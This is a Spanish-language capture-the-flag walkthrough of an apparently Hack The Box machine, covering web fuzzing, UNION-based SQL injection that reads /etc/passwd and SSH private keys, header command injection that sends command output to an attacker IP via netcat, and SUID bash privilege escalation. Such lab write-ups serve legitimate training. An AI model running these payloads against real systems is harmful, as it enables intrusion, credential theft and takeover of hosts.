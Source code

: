 ## Summary

- IP -> 10.10.11.128
- Ports -> TCP (80), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 80 -> http
    -  -> 

## Recon
- Launchpad
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)

❯ **nmap --script http-enum -p 80 10.10.11.130 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.11.130 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Miramos desde el navegador Web

- La web interpreta PHP
- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> http://10.10.11.128/FUZZ.php** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt**

Empezamos a probar inyecciones SQL y miramos que algunas si se pueden 
	**omar’or 1=1-- -** Aqui no me sale el here
	**omar'order by 10-- -** Aqui si sale el here
	**omar'union select 1-- -** Aqui miramos que tenemos una inyeccion sql **database()** podemos sustituir eso en 1 y nos regresa el nombre de la base de datos
	**omar'union select version()-- -** Nos muestra la version 
	**omar'union select user()-- -** Nos muestra el nombre del usuario 'uhc@local'
	**omar'union select load_file("/etc/passwd")-- -** Miramos el /etc/passwd de la maquina

Para mirara mejor lo podemos hacer por BurpSuite.
	**omar'union select load_file("/home/htb/.ssh/id_rsa")-- -** Para ver si podemos ver el id_rsa de la maquina victima del usuario htb
	**omar'union select load_file("/home/uhc/.ssh/id_rsa")-- -** Para ver si podemos ver el id_rsa de la maquina victima del usuario uhc
	**omar'union select load_file("/home/uhc/user.txt")-- -** Para ver si podemos ver la flag de usuario user.txt

Podemos usar eso para poder enumerar informacion 
	**'union select schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select *group_concat*(schema_name) from information_schema.schemata -- -** Para listar mas bases de datos al mismo tiempo
	**'union select *group_concat*(table_name) from information_schema.tables WHERE table_schema='*November*'-- -** Lista las tablas de una base de datos especifica
	**'union select *group_concat*(column_name) from information_schema.columns WHERE table_schema='*November*' and table_name='*"flag"*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica, pero en ocasiones lo debemos de representar en hexadecimal 

- Comando -> **echo -n "flag" | xxd -ps** Convertimos una palabra en hexadecimal, flag = 666c 6167 = 0x666c6167

	**'union select *group_concat*(column_name) from information_schema.columns WHERE table_schema='*November*' and table_name='*0x666c6167*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

Aveces no fucniona por lo que solo lo dejamos asi:
	**'union select *group_concat*(table_name,":",column_name) from information_schema.columns WHERE table_schema='*November*'-- -**  Otra forma de representar la linea anterior
	**'union select *group_concat*(one) from flag** Enumeraremos la flag

Y lo que obtenemos lo colocamos en la pagina en donde debemos de ingresar la primer flag.

Volvemos a hacer un escaneo de nmap.
	**'union select *group_concat*(player) from players** Enumeraremos los usuarios pero salen nombres que no son de usuarios.

Recoramos que en Wfuzz logramos enumerar un dir llamado 'config', por lo que probamos esa ruta en el navegador web. Pero no nos arroja nada, por lo que probamos la ruta tipica de los servidores web.
	**omar'union select load_file("/var/www/html/config.php")** Mirar el archivo config.php

## User
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh
- Comando -> **whoami**
- Comando -> **ifconfig**

- Comando -> **id**
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **lsb_release -a** Ver que tipo de OS es

- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios
- Comando -> **systemctl list-timers** Miraremos si hay tareas a punto de ejecutarse
- Comando -> **cat /etc/crontab** Para ver si hay una tarea interesante 

Nos dirigimos a la ruta del firewall ya que nos podria ayudar a escalar privilegios.

- Comando -> **cd /var/www/html/firewall.php** 

Podemos ver la cabecera X_FORWARDED_FOR que evita ser bloqueado

Por lo que podemos colocar algo en esa cabecera con curl 

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; ping -c 1 10.10.14.17;"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- ping -c -> Comando a ejecutar 

Nos da acceso denegado. Por lo que nos traemos la Cookie de Session del BurpSuite
- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; ping -c 1 10.10.14.17;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- ping -c -> Comando a ejecutar 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **tcpdump -i < INTERFACE> icmp -n** (n=no resolucion DNS) Nos ponemos en escucha para trazas icmp y recibir los pings

Por lo que podemos ejecutar comandos

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; whoami | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- whoami -> Comando a ejecutar 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y miraremos que usuario es el que manda la peticion

- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; sudo -l | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- sudo -l -> Comando a ejecutar (l=ele) 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y mirar si tiene privilegios asignados a sudoers


## Root

Este comando lo hacemos desde la terminal del usuario uhc
- Comando -> **curl -s -X GET http://localhost/firewall.php -H "X_FORWARDED_FOR: 1.1.1.1; sudo chmod u+s /bin/bash | nc 10.10.14.17 443;" -H "Cookie: PHIDRHNED"**
	- 1.1.1.1 -> Vale esa ip
	- 10.10.14.17 -> Nuestra IP
	- sudo -l -> Comando a ejecutar (l=ele) 
	- Cookie -> Esta nos ayuda a que sirva el comando

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux, para recibir el resultado por netcat y mirar si tiene privilegios asignados a sudoers

Esto nos ayudar a entablarnos una revershell y lo haremos asignado a otros la bash privilegiada
- Comando -> **bash -p** Nos otorgara una bash como el propietarios que es root, esto temporalmente (p=privilege)

Despues podemos visualizar la flag root.txt